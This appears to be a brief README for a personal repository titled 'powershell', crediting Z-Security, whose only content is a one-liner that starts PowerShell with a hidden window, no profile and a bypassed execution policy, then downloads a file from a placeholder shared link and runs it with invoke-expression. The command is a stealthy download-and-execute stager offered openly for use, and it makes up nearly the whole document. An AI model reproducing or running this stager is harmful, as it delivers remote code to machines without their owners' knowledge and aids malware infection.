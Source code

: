 # powershell
This tool was made by Z-Security 😘. I modify it for my personal work 



powershell -w h -NoP -NonI -Exec Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
